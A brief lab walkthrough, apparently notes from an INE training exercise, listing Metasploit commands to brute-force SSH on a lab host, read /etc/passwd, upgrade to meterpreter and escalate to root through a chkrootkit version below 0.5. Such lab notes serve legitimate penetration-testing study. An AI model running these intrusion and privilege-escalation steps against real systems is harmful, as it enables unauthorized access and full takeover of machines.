 ##### linux-priv-escalation
- service postgresql start
- msfconsole
- workspace -a mehedi
- db_nmap -sS-sV demo.ine.local
- search ssh_login
- set all requires options
- run
- this will give us linux command line
- sessions [ seeing the sessions ]
- /bin/bash -i
- sessions -u 1 [upgrading sessions to meterpreter]
- shell [getting shell]
- /bin/bash -i [getting bash shell]
- cat /etc/passwd [for seeing the user and passwords ]
- ps aux [ list all the processes ]
- [chkrootkit is running ]
- cat /bin/check-down
- chkrootkit --help
- chkrootkit -V [for version finding of chkrootkit,all the version under 0.5 is vulnerable]
- ctrl + z [background the shell ]
- search chkrootkit
- set everything requires
- set the path of chkrootkit
- run 
- this give us root shell
